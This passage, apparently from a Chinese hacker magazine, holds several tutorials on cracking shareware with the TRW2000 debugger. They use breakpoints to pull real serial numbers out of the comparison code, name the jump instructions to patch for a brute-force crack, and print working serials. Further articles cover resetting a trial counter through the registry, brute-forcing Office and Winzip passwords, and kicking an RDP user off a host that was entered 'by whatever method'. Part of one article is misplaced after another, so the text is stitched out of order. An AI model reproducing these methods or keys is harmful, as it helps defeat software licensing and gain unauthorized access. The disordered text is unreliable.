TRW2000 有两组热键：Ctrl+N 和 Ctrl+M，它们分别代表不同的特权级别。所谓特权级别，就是程序在执行中有级别之分，只有操作系统工作在最高级——0 级中，其他的程序都应工作在 3 级中。在 3 级中的程序不可直接访问 IO 端口，也无法访问其他程序运行的内存，连向程序自己的代码段写入数据都是非法的（会出现你熟悉的蓝屏），只有对工作在 0 级上的程序来说系统才是全开放的。所以 TRW2000 为我们准备了两种不同特权级别的热键：按 Ctrl+N 为 3 级，按 Ctrl+M 为 0 级，可以在不同的情况下使用。一般情况下，我们按 Ctrl+N 就可以了。

### 一步一步学解密

#### 敏思硬盘卫士破解实录

文／我心如风


敏思硬盘卫士是一款出色的系统安全软件，它可以保护 Windows 系统文件和系统设置，加密用户指定的逻辑盘、文件夹和文件，给软驱和光驱加锁或解锁，使之暂时失效或限制可以读写的文件类型，并且可以防止文件型病毒、“欢乐时光”等 Web 类病毒和邮件病毒侵入硬盘及向外扩散，阻止木马程序偷窥硬盘上的重要文件。而且，可以通过局域网对各台终端 PC 机进行远程设置和远程控制。软件下载地址：http://sq.onlinedown.net/down/bg22.zip。

该软件有功能限制，必须注册才行，今天我们就谈谈怎样注册该软件，同时为您详尽地介绍关于解密软件的基础知识和经验，方便您上手。相信看完此文，您一定会对解密软件有所了解，增强您破解软件时的信心，并能成功破解软件，体验到自己动手解密的乐趣。好，下面我们开始。

#### 一、熟悉 TRW2000 的工作环境

先介绍一下我们要用到的兵器：TRW2000，运行后程序界面如图 1 所示。我们可以通过两种方式调出 TRW2000，一种是按 Ctrl+M（对应特权级别 0，不常用），另一种是 Ctrl+N（对应特权级别 3，常用）。按了 Ctrl+N 后，会看到如图 2 所示的窗口。为了消除您在用 TRW2000 破解软件时的陌生感，尽快掌握该软件，在此为您做一详尽的介绍。


图 1


图 2

- 1. 寄存器窗口（图 3）

在这里可以观察到各种寄存器的当前值，如数据寄存器 EAX、EBX、ECX、EDX 和控制寄存器（EIP 和 PSW）等。有一点要注意了，由于我们是在 Windows 平台下，所以看到的都是 80386 寄存器集，其与 16 位寄存器差别在于前多了一个字符“E”，意为 16 位寄存器扩展。在 TRW2000 中看到的都是以 E 开头的，如 EAX、EBX 等。在寄存器中经常存放我们感兴趣的东西，如注册码等。如果是明文，用 D 命令就可以查看到，在后面我们有介绍。


图 3


图 6

- 2. 数据窗口（图 4）

在数据窗口显示指定内存中的数据，以十六进制和 ASCII 同时显示，软件的注册码经常会在此出现，因此有必要了解一下图中各部分的含义。


图 4

①号位置的 0030：这是段选择器。在 Windows 的保护模式下，CS、DS、ES、SS、FS 和 GS 不叫段寄存器，叫段选择器。在保护模式中，内存分为了好多的段，在 TRW2000 下用 GDT 就可以看到段的编号、类型、开始物理地址、大小、属性。让我们看看编号 0030 是什么东西（图 5）：

| 编号 | 类型 | 开始物理地址 | 大小 | 属性 |
|---|---|---|---|---|
| 0030 | data32 | 00000000 | FFFFFFFF | ewa |

图 5

这个段是 32 位数据类型，长度为 4G。我们还可以看到很多的段，它们有可能会指向同一个物理地址，但它们的类型、属性可能不同。如一些段指向的地址是不可读写的，但另外一个段指向的同一物理地址是可读写的！如果我们通过不可写的那段的编号放到段选择器，然后进行读写操作，肯定死掉了。但换了另外一个段对同一个地方读写那就没问题！保护模式的内存管理挺有趣的，感兴趣的不妨看看这方面的书，当然作为初学者只需稍微了解就可。

②号位置 00000000：此处表示内存的虚拟地址；③号位置的值是当前内存的数据，以十六进制表示；④号位置的值是“③”处值的另一种表示方法：ASCII 码。

- 3. 代码窗口（图 6）

此处显示的是当前程序的代码，因为不管是什么程序，最终都是以机器语言方式被 CPU 执行，而汇编语言和机器语言是一一对应的。因此，TRW2000 为了方便我们理解，把所监视的代码以汇编代码形式显示在我们面前，你可用 Code on/off 打开或关闭这项的显示。如图 7 所示：其中①是段选择器；②是虚拟地址；③是机器码，又称机器代码，此处是以十六进制表示。当你用十六进制编辑器打开、编辑 EXE 等可执行文件时，你会看到许许多多的由 0、1、2、3、4、5、6、7、8、9、A、B、C、D、E、F 组成的数码，这些数码就是机器码。静态修改程序就是通过修改机器码来修改 EXE 等可执行文件；④是汇编指令，它是和机器码对应的程序代码。


图 7

- 4. 堆栈窗口

这个是 TRW2000 特有的，通过它很方便监视堆栈的状况。

- 5. 程序领空

所谓领空，实际上是指在某一时刻，CPU 的 CS:IP（EIP）所指向的某一段代码的所有者所在的区域。此例中 TRW2000 所停下来时光标所指的那一句代码是属于 KERNEL32.DLL 的，因此就叫 KERNEL32.DLL 领空。在图 6 中，可看到的领空名是 KERNEL32!.text，那我怎么知道它就是 KERNEL32.DLL 文件呢？主要靠经验。KERNEL32.DLL 是 Windows 系统文件，如果是在 SoftICE 里，则显示领空名时不显示扩名，只是显示前一部分。

- 6. 命令窗口（图 8）

这是各种命令执行的地方，在屏幕底部的动作状态行显示执行命令的各种提示，还可提供指令语法帮助。


图 8

OK，关于 TRW2000 的调试界面和简单的基础知识就给您先介绍到这儿，在后面我们还会结合破解实例给您一步一步地介绍我们用到的相关命令及其解释。现在，开始我们今天的行动！

#### 二、破解过程和解密经验

首先，使用 FileInfo 检测一下敏思硬盘卫士的主程序，看是否加壳了。结果显示没有加壳，真是太好了。

> ☆☆☆☆☆破解经验提示☆☆☆☆☆
>
> 现在，很多软件为了防破解大多经过了加壳，而且目前很多外壳软件均防常见的破解工具。所以，在破解前应首先使用文件外壳检测软件检测一下主程序，以免跟踪时在软件外壳部分转来转去浪费时间和精力，或者直接被软件外壳搞死，这是破解初学者应该养成的良好习惯^^。

运行敏思硬盘卫士，右击系统托盘中的该软件图标，在弹出的菜单中选择“注册”，会出现一个对话框（图 9），随便输入假的注册码 31415926，准备注册该软件。

> ☆☆☆☆☆破解经验提示☆☆☆☆☆
>
> 现在很多软件在防破解方面下了很大的功夫，有的软件发现输入的注册码为“12345678”“78787878”或者“88888888”等简单重复的字符会直接注册失败，根本不会判断注册名和注册码之间的逻辑关系。有的软件则对注册码采用实时判断，这样如果输入简单重复的注册码在破解时会难受之极，因为很难判断现在正确的注册码对应的是第几个“8”=-。（建议使用圆周率或者自己熟悉的字符串，例如身份证号码、出生年月日等作为假注册码，可以避免类似的麻烦。

运行 TRW2000，按 Ctrl+N 热键，进入 TRW2000，下断点：BPX lmemcmp，按 F5 返回到敏思硬盘卫士中，点击“确定”，会被中断下来。

> ☆☆☆☆☆破解经验提示☆☆☆☆☆
>
> 前面我们已经提到过，现在很多软件反破解工具，有些软件在启动后检测到有 SoftICE、TRW2000 甚至天惠 II v0.46 这类破解工具时，会拒绝继续运行直接退出，而有些恶毒的软件如美萍反黄专家等则干脆导致死机！所以建议您在解密软件时，先运行目标软件，在该软件启动后再运行 TRW2000，这样可以避免部分软件对破解工具的检测。

> ☆☆☆☆☆TRW2000 和解密基础知识提示☆☆☆☆☆
>
> 所谓的断点就是程序被中断的地方，这个词对于破解者来说是再熟悉不过了。而所谓的中断就是由于有特殊事件（中断事件）发生，计算机暂停当前的任务（即程序），转而去执行另外的任务（中断服务程序），然后再返回原先的任务继续执行。打个比方，你正在吃饭，突然有人敲门，开门发现是小编，把他带到客厅安顿好后，你继续吃饭（至于他馋不馋我们就不管了^^，呵呵），这就是一个中断过程。在解密时，就是等到真假注册码比较的时候将它中断下来，然后通过分析程序，找到正确的注册码。所以我们需要为被破解的程序设置断点，在适当的时候


图 9

切入程序内部，追踪到程序的注册码，从而达到破解的目的。

下面再来说说 BPX 这个命令的用处和语法。BPX 用来在指令处下断点，程序一旦执行到此，TRW2000 就会弹出。当光标在代码窗口中时，直接键入 BPX 就会在光标所在语句处设断点，再键入 BPX 就取消断点。BPX 的快捷键是 F9，当光标在代码窗口中时，按 F9 就是设定／取消断点。BPX 命令的语法格式如下：

```text
BPX [address] [IF expression] [DO "command1; command2;..."]
address：断点所在的线性地址。
IF expression：条件表达式，只有条件为“真”时，TRW2000 才在断点处弹出。
DO command：当 TRW2000 弹出时，自动执行的一些命令。
```

在 BPX 命令中不用区分大小写。BPX 命令也可用函数名来作地址参数：格式为 BPX 函数名。这个函数名可以是任意一个 API 函数、虚拟机指令、DLL 文件的引出函数等等。具体到我们今天破解的程序，前面我们用的命令 BPX Hmemcpy 是什么意思呢？它的意思是只要程序调用了 Hmemcpy 这个函数，就用 TRW2000 中断下来。BPX Hmemcpy 可以说是一个万能断点，为什么这么说呢？函数 Hmemcpy 是 Windows 9x 系统的内部函数，位于 Kernel32.dll 中，它的作用是将内存中的一块数据拷贝到另一个地方。由于 Windows 9x 系统频繁使用该函数处理各种字串，因此用它作为断点很实用，它是 Windows 9X 平台最常用的断点。这个俗称万能断点的家伙，一般的编程书籍上很少提到，原因是它是底层的东西，没有特殊需要，一般不直接调用。要提醒大家的是，在 Windows NT/2K 中没有这个断点，因为其内核和 Windows 9x 完全不同。

Hmemcpy 函数原型：

```text
void hmemcpy(hpvDest, hpvSource, cbCopy)
void _huge* hpvDest;              // 目的数据地址
const void _huge* hpvSource;      // 源数据地址
long cbCopy;                      // 数据大小(Bytes)
```

继续我们的破解过程。输入 BC *，清除断点，然后输入 Pmodule，会来到敏思硬盘卫士的领空。按了下 F12 键，再按一下 F10 键，会看到如下代码：

```text
015F:004A4144 8B45FC        MOV EAX,[EBP-04]         // 把[EBP-04]的值送入EAX中
015F:004A4147 50            PUSH EAX                 // 用 D EAX 命令可以知道 EAX 中为你输入的假注册码
015F:004A4148 8D55F4        LEA EDX,[EBP-0C]
015F:004A414B 8B8304030000  MOV EAX,[EBX+0304]
015F:004A4151 E8FAD6F8FF    CALL 00431850            // 计算机器码的 call
015F:004A4156 8B45F4        MOV EAX,[EBP-0C]         // 用 D EAX 可以知道存放的是机器码
015F:004A4159 8D4DF8        LEA ECX,[EBP-08]
015F:004A415C 66BA0D00      MOV DX,0D
015F:004A4160 E8A3F8FFFF    CALL 004A3A08
015F:004A4165 8B55F8        MOV EDX,[EBP-08]         // 用 D EDX 可以知道，EDX 中为真正的注册码
015F:004A4168 58            POP EAX                  // EAX 弹出堆栈，EAX 中为你输入的假注册码
015F:004A4169 E83EFEF5FF    CALL 00403FAC            // ☆这边比较真假注册码的 call，可以按 F8 进入☆
015F:004A416E 7423          JZ 004A4193              // 如果注册码为真则跳转，暴力破解的话这是关键
015F:004A4170 6A30          PUSH BYTE +30
015F:004A4172 6804424A00    PUSH DWORD 004A4204
015F:004A4177 6814424A00    PUSH DWORD 004A4214
015F:004A417C 6A00          PUSH BYTE +00
015F:004A417E E84D30F6FF    CALL USER32!MessageBoxA  // 来到此 CALL 就会出现注册失败的对话框
```

#### ☆☆☆☆☆ 破解经验提示 ☆☆☆☆☆

常有初学者问“怎么才能知道需要按 F12 多少次啊”。要搞清楚这个问题也不难，其实通常情况是，当按了 F12 键 N+1 次后软件就会出现提示说注册码错误，那么自然而然地我们就可以想到，注册码判断的过程可能是在按 F12 键 N 次之后的那部分，所以下次少按 1 次 F12 键就可以看到程序注册码关键比较的地方。

#### ☆☆☆☆☆ TRW2000 和解密基础知识提示 ☆☆☆☆☆

下面再给大家介绍一下刚刚提到过的 BC 命令。它的作用是清除一个或多个断点，输入命令 BC 01 则清除第 1 个断点，BC 02 则清除第 2 个断点，清除多个断点时中间用空格或逗号隔开，BC * 则清除所有断点。由于被调试跟踪的程序会多次调用我们设定的函数，而每次调用都会被我们事先设定的断点中断下来，为了防止设置过了的中断的干扰（那样很烦人），所以我们要及时清除不再需要的断点。

接下来，再说说上面提到过的 Pmodule 命令。这是 TRW2000 特有命令，在 SoftICE 中没有这个命令。Pmodule 的作用是相当于按 F12 键直至 CS:EIP 位于模块中，但它比 F12 更实用，可以快速回到当前程序领空（不要忘了，这是我们的目标啊，只有回到当前调试跟踪程序的领空才可能破解掉该程序）；不用按多次 F12（在 SoftICE 中要多次按 F12 键才能回到当前程序的领空）了，这样大大地方便了我们。

最后，让我们再看看 F10 键在 TRW2000 中有什么用处。F10 键其实是 TRW2000 中的 P 命令的快捷键，P 指令的作用是单步执行程序，P 指令的语法：P [ret]。只执行 P 时，相当于按下 F10 键。在汇编模式中，当遇到 CALL、INT、LOOP、REP 指令时，P 将不跟踪进去，直到这些指令执行完毕，控制才返回 TRW2000，换句话说，P 命令是“跨”过这些指令的。

好了，TRW2000 的常用命令及其含义介绍完毕，继续我们的破解工作。当按下 F10 键光标停留在偏移地址 004A4169 处的那个 CALL 00403FAC（就是有★那一行）时，按 F8 键进入此 Call，你会看到如下代码：

```text
015F:00403FAC 53              PUSH EBX                // EBX入栈
015F:00403FAD 56              PUSH ESI                // ESI入栈
015F:00403FAE 57              PUSH EDI                // EDI入栈
015F:00403FAF 89C6            MOV ESI,EAX             // 把EAX送入ESI，用 D EAX 可知 EAX 中是你输入的注册码
015F:00403FB1 89D7            MOV EDI,EDX             // 把EDX送入EDI，用 D EDX 可知 EDX 中是真正的注册码
015F:00403FB3 39D0            CMP EAX,EDX             // 比较 EAX 和 EDX 是否相等
015F:00403FB5 0F848F000000    JZ NEAR 0040404A        // 如果相等则跳转，暴力破解可以改这里
```

当程序执行到偏移地址 00403FB3 这一行时，输入 D EDX 就可以得到正确的注册码，我的是 1294321408。

> ★★★★★ 破解经验提示 ★★★★★  
> 在什么时候需要按 F8 键跟进 Call，什么时候使用 D 命令，则需要有一定的破解经验。对于破解经验比较少的初学者可以采用最原始的方法：当碰到对寄存器进行操作的命令就用 D 命令试一下，碰到 Call 就跟进去，碰到比较命令就对比较的寄存器用 D 命令。而且一定要勤记笔记！破解时一定会失败若干次，如果没有跟进某个 Call，或者是对某个判断、跳转没有注意，那么下次可以对照笔记快速定位，否则总是从头来可就太麻烦了。

> ☆☆☆☆☆ TRW2000 和解密基础知识提示 ☆☆☆☆☆  
> 大家可能会有个疑惑，文章中的这些代码都是我一点一点键入的吗？当然不是了！在 TRW2000 中我们可以用 U 命令反汇编程序的代码，并保存为文件，然后打开这个文件复制到文章中即可。命令格式：U address1 address2 >file.txt。文章中我们还提到了 D 命令，它的作用是显示某内存区域的内容，语法：D[size] [address [length]]。在明文比较方式下，我们用 D 寄存器命令就可以得到软件的注册码。

现在，按 F5 返回到程序中，敏思硬盘卫士会提示注册码不正确，输入你刚刚得到的注册码，点击“确定”按钮，会显示注册成功字样（图 10）。再次右击系统托盘中的敏思硬盘卫士的图标，在弹出菜单中你会发现“注册”选项前有个“√”，表示已经注册成功了。


到这里，关于敏思硬盘卫士的破解就结束了，希望没有浪费您宝贵的时间。其实，破解没有什么难的，关键是要有毅力和耐心，当然如果能懂得一点汇编知识，再加上一点点运气就更好了。只要能持之以恒，坚持学习，就没有办不到的事，解密亦如此。

对于年轻的“上网”一族，拥有几个 QQ 实在是再平常不过，虽然腾讯一再强调要申请密码保护，但由于 QQ 一族日益增多，很多人保护意识不强，因此，每天都有人被别有用心者利用窃取 QQ 密码的工具窃取自己的靓号，而 QQ 密码侦探终结者就是对付这种行为的工具，不过需要付费才能无限制使用，下文是作者在研究 TRW2000 时的一点心得，吃透后就可以随心使用 QQ 密码侦探终结者了。

## QQ密码侦探终结者破解盗版


文/freerong

目前网上非常流行一种窃取 QQ 密码的工具——QQ 密码侦探。该软件运行时相当隐蔽，当你像平时那样登录 QQ 聊天，你的 QQ 密码就会被记录下来，然后发送到下套者设定的邮箱里去了！由于 QQ 密码侦探的软件版本非常多，其中特别版最可怕，会与其它软件捆绑在一起，在不知不觉中运行，你一点也察觉不到便会中招，很多网友就是这样丢失了 QQ 密码！不过，你再也不用害怕它了！因为专为查杀“QQ 密码侦探”、保护你的 QQ 安全的 QQ 密码侦探终结者诞生了！

不过，QQ 密码侦探终结者是共享软件，需要付费注册成为正式用户以后才能无限制地使用其所有最新功能，并且获得技术支持！比如说注册后可以查出安装 QQ 密码侦探的“元凶”，可以查出他的 Email 地址及他各项设置，这样在还击时就可以做到有的放矢了！同时，注册后，你的电脑将增加免疫功能，可以防止以后不再中 QQ 密码侦探。另外，注册版还可以使用自动监控系统的功能，自动发出警报声！还可以由用户自己设置随电脑启动而自动运行，自动查杀！

未注册则无上述功能，且只能使用 10 次。看来无产阶级只能自力更生了。我手头上的这款 QQ 密码侦探终结者的主程序为 unqqspyz.exe，运行它，然后在用户名栏中填入 free，在注册码栏中填入 12345678。一切准备完毕，启动 TRW2000，按 Ctrl+N 呼出 TRW2000，输入 bpx hmemcpy 这个“万能”断点，然后按 F5 返回到程序中执行注册，按“立即注册”按钮，程序立刻被 TRW2000 拦截下来。输入 bc * 命令，取消我们设定的断点，免得它没完没了地中断下来。接下来输入 PMODULE 这个 TRW2000 特有的命令，迅速来到 unqqspyz 的“领空”。

按 7 次 F12 键后（第八次出现错误提示，表明是在按 F12 第 7 次后进行注册码的比较判断），光标停留在偏移地址 00425966 这一行（这一行高亮显示）。按 F10 键 21 次来到这里（代码如下）：

```text
0167:0044CACD  CALL  0044C8C0
0167:0044CAD2  MOV   EDX,[EBP-14]    ; 把[EBP-14]中的真正注册码送到EDX中
0167:0044CAD5  POP   EAX             ; 在此处输入D EDX可得到真正的注册码
0167:0044CAD6  CALL  00403D40        ; 此处为关键CALL，真假注册码在此比较，按F8键进入！

在0044CAD6处按F8进入，可以看到如下代码：
0167:00403D40  PUSH  EBX             ; EBX入栈
0167:00403D41  PUSH  ESI             ; ESI入栈
0167:00403D42  PUSH  EDI             ; EDI入栈
0167:00403D43  MOV   ESI,EAX         ; 把EAX中的假注册码送入ESI中
0167:00403D45  MOV   EDI,EDX         ; 把EDX中的真正注册码送入EDI中
0167:00403D47  CMP   EAX,EDX         ; 比较真假注册码！
0167:00403D49  JZ    NEAR 00403DDE   ; 如正确则跳转，暴力破解可将JZ改为JNZ则输入任何字符都可以！
```

当光标移动到偏移地址 00403D47 行时，在命令区输入 D EAX 可以看到假注册码 12345678，输入 D EDX 则可以得到真正注册码 SmxaUT09YVd4dmRtVjI！简单吧？

解密的乐趣其实不在结果，重要的是能分析出软件作者编程的思路，其中优秀者如能据为己有，当受益匪浅。

## 找回 Winzip 和 Office 上的密码


对于暴力破解密码，如果你原来所设的密码属于异常复杂组合的话，建议先沏上一杯茶，再拿上一本杂志一边看去吧，在这里强烈推荐《黑客防线》第 N 期，嘿嘿。

文／李军胜

### Winzip

Winzip 是世界流行的一款压缩软件，它支持的压缩添加密码功能可以为我们保护文件起到很大的作用，但可能一段时间之后不经意就会将密码遗忘，请不要着急，下面我就为大家介绍一款专门破解 Winzip 压缩文件密码的工具软件 UZPC。比起其它破解软件，UZPC 最大的优点就是速度快。我试用了一下，破解一个 6 位的字母数字混合的密码，没到半分钟就搞定了（uzpc 下载地址：http://download.pchome.net/php/dl.php?sid=5029）。

- 运行 UZPC，然后选择“任务→新的”（图 1），选择需要解密的 Winzip 压缩文件。
- 打开文件后，出现选择窗口，一般来说压缩包里的加密文件是使用同一密码的，不过也有例外的时候，就要根据个人的实际情况来确定了。至于攻击参数的选择，默认的“强迫”就可以了。
- 接着选择“下一步”，就会出现强迫攻击参数窗口，这里要仔细回想一下，原来的密码大概是由什么组成的，然后选择相应的选项，如果实在回忆不起来了，就把“数字”“大写字母”“小写字母”都选上吧。当然随之破解花去的时间可能将会增加（这要依据所设定密码的复杂程度）。下边密码的长度可以自行设定，默认为一到五位，但要记住一定不能小于原始密码的长度，否则破解将不能成功。一切 OK 后，点击“开始”，UZPC 便开工了，接下来你要做的事就是等待了……


#### Office

MS Office 系列是使用最为普通的办公软件，工作繁忙的你，难免出现各种意外，比如对重要的 Word 文档加密之后却把密码忘得一干二净，这是最让人恼火和心急的了。别发毛，AOPR 来助你一臂之力（全称 Advanced Office XP Password Recovery。下载地址：http://www.zdnet.com.cn/download/windows/system/swinfo/0,2008005300,39017183s,00.htm）。让我先拿一个 DOC 文档文件给大家做个示范。

- 安装上 AOPR 后，启动它，点击“File Name”右侧的打开文件夹图标，选择需要进行破解的文档文件。
- “Type of attack”就使用默认的“Brute-force attack”，然后是设置密码的长度和组成字符（如图 2）。
- 设置好以后，点击工具栏上的“Start recovery”开始破解。稍后，密码就成功破解了。


AOPR 不仅可以破解 Word 文档，它对 Excel 等 Office 软件产生的文档密码都可以进行解码，方法也大致一样。

很多朋友经常关注于那些共享软件的破解方法！这篇文章不是专业的破解教程，而是属于比较另类的机械式破解，但依然对破解技术有探讨之处。


### 菜鸟也做共享软件

文／Jeasonyang

网络时代的来临也给我们带来了无限的方便，网上很多的好玩艺可以随时下载到本地硬盘。但随着共享软件的越来越多，虽然为网络世界增添了很多使用上的方便，但同时存在的一个问题就是共享软件的生命力……

现如今很多朋友都喜欢在网上玩在线游戏，在下也不例外。于是各类在线游戏的外挂便猖獗起来，尤其是知名游戏的外挂更是多不胜数；而这些外挂大多数属于共享软件。所谓的这些共享软件，大都是当软件被安装或执行的时候，会在系统的一个隐藏的地方（如注册表的某个阴暗的角落）写入一些特定的数据，然后每次执行时会在这些地方写入数据，达到一定条件后（如次数或天数等），程序就无法执行了，即使你重新安装也无济于事。

在这里我们要探讨的就是关于这类共享软件的破解。在这之前，我们必须要使用到一个软件——Regsnap 3.0，用它来找那些被写入到注册表里的数据。

在这里我拿某个网络游戏的外挂做个演示。这个外挂属于共享软件，有时间和使用次数的限制。对于时间限制来说，并不存在太大问题，主要是次数限制。当使用次数接近 30 次时就会弹出提醒注册的窗口，如图 1 所示：


现在运行 regsnap，建立快照，如图 2 所示：


之后最好保存在硬盘。然后的工作就是运行外挂程序——退出——运行……直到无法使用程序（直接弹出注册窗口）。如图 3 所示：


作者正式结束了我的使用权。这时候我用 regsnap 再次建立快照，并与第一次建立的快照比较。如图 4 所示：


### 巧用 Crack 技术破解

#### 邮箱密码探测器 EmailKey 的谎言

文／阿剑

EmailKey 是一款电子邮箱密码探测器，在许多网站的下载排行中排在前列。据作者说非常简单易用，通过对 POP、POP3 邮箱密码进行探测，从而达到破解邮箱密码的目的，而且据说不用 30 秒即可完成。有过邮箱密码破解经验的朋友一定会觉得这样的速度快得有些不合常理！大名鼎鼎的溯雪也没有这么大的本事啊。想想 EmailKey 也是暴力破解邮箱密码，它怎么就这么厉害呢？于是下载了一款，亲自做了一个实验，以下是我的实验结果和分析过程。

下载后，运行 EmailKey，输入 POP3 服务器地址和用户名，发现 EmailKey 竟然连字典文件都不需要就可以破译邮箱密码！而众所周知，暴力破解邮箱密码能否成功的关键就是软件的字典文件的好坏，即字典文件中只有包含了要破解的邮箱的密码，才有成功的可能。而 EmailKey 竟然不需要字典文件，这更加深了我对它的怀疑。点开始探测，几乎没有任何延迟便出现提示：找到用户，成功获取密码。这速度也实在太快了点，一定有鬼！看密码框中显示的是 6 个 * 号。原来该软件未注册时有功能限制，需注册才能正常使用。那么是不是我没有注册的缘故导致这种结果出现呢？干脆利用 Crack 技术来做个实验，看注册后到底会怎么样！

说干就干，请出我的最爱 TRW2000，运行之，点击“Browse”按钮找到 EmailKey，点击“Load”将其载入。按 F5 键继续运行程序，在 EmailKey 中可以看到我的注册号是 B1L6-9F3J-A8S5，看来可能是一个注册号对应一个注册码。在注册框中随便输入一些字符，如 1234，然后按 TRW2000 的热键 Ctrl+N 进入 TRW2000 的调试界面，输入 BPX HMEMCPY 下断点，按 F5 回到被调试程序中，按“注册”被 TRW2000 拦住。输入 BD *，屏蔽所有断点。这一步也是很重要的，许多初学解密的朋友不太注意这一点。由于被调试跟踪的程序会多次调用我们设定的函数，而每次调用都会被我们事先设定的断点中断下来，为了防止没完没了的中断的干扰，所以我们要及时清除（BC *）或屏蔽（BD *）不再需要的断点。

接下来输入 Pmodule 指令直接跳到程序的“领空”。请注意，Pmodule 指令是 TRW2000 特有命令，在 SoftICE 中没有这个命令。Pmodule 的作用是相当于按 F12 键直至 CS:EIP 位于模块中，但它比 F12 更实用，可以快速回到当前程序领空（只有回到当前调试跟踪程序的领空才可能破解掉该程序），不用按多次 F12 了（在 SoftICE 中要多次按 F12 键才能回到当前程序的领空），这样大大地方便了我们。

你会看到如下代码：

```text
016F:00401225  PUSH  BYTE+14
016F:00401227  PUSH  DWORD 00424678
016F:0040122C  PUSH  DWORD 00428800
016F:00401231  CALL  00402CE0    //这是关键 CALL
016F:00401236  ADD   ESP,BYTE+0C
016F:00401239  TEST  EAX,EAX
016F:0040123B  JNZ   00401269    //这一行可以跳过下面的对话框，改为 JZ 00401269 可以暴力破解成功
016F:0040123D  PUSH  BYTE+00
016F:0040123F  PUSH  DWORD 0042466C
016F:00401244  PUSH  DWORD 00424648
016F:00401249  MOV   EDX,[EBP+08]
016F:0040124C  PUSH  EDX         //EDX 入栈
016F:00401225  CALL  USER32!MessageBoxA
//这里调用 MessageBoxA 函数显示注册错误对话框
```

有的朋友可能会问：你怎么知道 016F:00401231 处的 CALL 00402CE0 是关键呢？因为我跟踪过嘛！而且，从偏移地址 00401225 处的 CALL USER32!MessageBoxA 可以知道这是注册失败时会显示的 CALL，只要跳过这里就可以注册成功。那么哪里可以跳过这里呢？向上看！偏移地址 0040123B 那一行：JNZ 00401269 可以跳过此 CALL，为什么它没有跳转呢？这是因为在它上面有个 CALL 00402CE0，在代码执行过该行后，返回值不符合要求，所以 0040123B 那一行：JNZ 00401269 没有跳转。既然如此，我们就可以知道 016F:00401231 处的 CALL 00402CE0 是能否注册成功的关键所在。其实，在此 CALL 中进行的就是注册码的比较。

按向上的箭头键将光标移动到偏移地址 00401231 处的 CALL 00402CE0，按 F9 下断点，然后按 F5 返回到程序中，再次输入注册码，点注册被中断在 00401231 处的关键 CALL，按 F8 键进入此 CALL，你会看到以下代码：

```text
016F:00402CE0  PUSH  EBP
016F:00402CE1  MOV   EBP,ESP
016F:00402CE3  PUSH  EDI        //EDI 入栈
016F:00402CE4  PUSH  ESI        //ESI 入栈
016F:00402CE5  PUSH  EBX        //EBX 入栈
016F:00402CE6  MOV   ECX,[EBP+10]
016F:00402CE9  OR    ECX,ECX
016F:00402CEB  JZ NEAR 00402D86
016F:00402CF1  MOV   ESI,[EBP+08]   //输入 ID
ESI，会显示你输入的注册码
016F:00402CF6  MOV   EDI,[EBP+0C]   //输入 ID
EDI，会显示真正的注册码
```

所以，很快我就得到了 EmailKey 的注册码：D4T7H2E4J3K2N9M6P1L4，真是太简单了！赶快输入注册框中，按注册之后显示：注册成功！注册类型：普通用户。哈哈，这回该能得到邮箱的密码了吧？填好 POP3 服务器地址和用户名，开始探测。显示出错，换个 POP3 服务器地址和用户名，仍然显示出错提示，运行多次的结果都一样。再改回到未注册版，立刻就搜索到了邮箱密码！而且是无论换成哪个邮箱都能立即就得到邮箱密码！

换台电脑，发现 EmailKey 提示的注册号仍然为 B1L6-9F3J-A8S5，这说明 EmailKey 的注册号是固定的，不是根据硬件信息的不同而计算出不同的注册号。再跟踪调试，发现注册码依然为 D4T7H2E4J3K2N9M6P1L4，注册后运行的结果还是出错，无法探测邮箱密码。由此可以得出结论：该软件根本不具备探测邮箱密码功能，只是徒具其壳而已，软件在运行后根本就没有进行探测工作！而注册该软件要花费 200 元人民币！这实在是一种欺骗广大网友和黑客技术爱好者的行为！

这里我们就可以发现可疑的改动，如图 5 所示。

图 5

经过进一步的确认，只要把那 5 个值改成可以运行时的值就可以再次运行外挂了。改动之后需要保存结果——就是制作一个注册表项，新建一个记事本写入内容，再将其后缀改成 .reg，就算大功告成。以后只要运行这个 .reg，添加到注册表后就可以用 30 次（将该键值删除是否可行没试过，有兴趣的朋友可以自己尝试），等用不了的时候再运行一下这个 .reg 就又可以用了。虽然没完全破解，但达到了可以无限次使用，其他共享软件大家也可以尝试。

这是一个简单的关于共享软件破解的方法，其目的不是为了让大家去破解共享软件，只是介绍一种技术手法而已！共享软件对我们的网络生活有着很大的贡献，支持是很有必要的。

### 编读互动

黑防论坛上有个版主，签名题为可爱【请问各位大侠：“把硬盘上的数据删掉一点可以减轻主机的重量吗？”】。虽然是个文字游戏，但再仔细一想，如果真有人提出这个问题？我又应当做何回答？

肯定有人会说，这还不简单。可事实上我们这位版主就真的被这个问题难住过！所以他才把这个签名当成了自己的座右铭。其实这里面难的不是问题本身，而是引导他正确认识的方法和耐性。反过来再想想，要是这个问题是位物理学家问的呢？要是它紧紧围绕在质量这个角度呢？你的耐性还会依然吗？

再回到我们的论坛，一个版上两到三个版主，数十倍以上的朋友，难保没有这样的问题存在（这是相对而言），但我们的版主你可千万不能泯然一笑讥讽而过。之所以这些朋友能提出来，那他一定是真的不清楚。别动辄群起而送“菜鸟”之雅号。论坛毕竟是有讨有论，只要是与本论坛主题相关的，为什么不可以坐下来细细讨论呢？

其实我也不能把“硬盘上的数据删掉一点可以减轻主机的重量吗？”这个问题回答圆满。嘿嘿，但我知道中国有位著名的数学家陈景润历经多年研究过“1+2”这个问题。很多时候，每个问题都有它微妙之处！我们都应当沉浸在讨论的快乐当中。

这些都需要耐心来树立，而耐心，正是黑防所具备的。

——苏樱

话说某日一早 Heavyd 在论坛“在线问答”，反正没什么人，偷个懒去下盘棋吧！无奈，臭棋篓子一个，连输三盘……唉，还是该干啥干啥吧！嗳？有位“只是个菜鸟”的朋友来提问啦，又是一个 3389 的问题，看我的厉害！“如果从 3389 登录主机，遇到超过了容许的最大连接数的问题，此时怎样才可以登录呢？”嘿嘿，这个问题说难也不太难，说简单也不简单……（只是个菜鸟：别废话了！快说！），好啦，请看清楚咯：

“先 Telnet 到此主机上（不管你用什么方法），ID 0 的用户是本地登录的，ID 1 是 3389 登录的。那么用命令：logoff 1，就可以让用户注销了，然后你再用 3389 登录上去。”

不到 10 分钟，这位菜鸟回复了：“小虾还是不明白，显示开后成功了，用 net start 命令也显示出这个服务了，为什么 Telnet 不上去呢？”

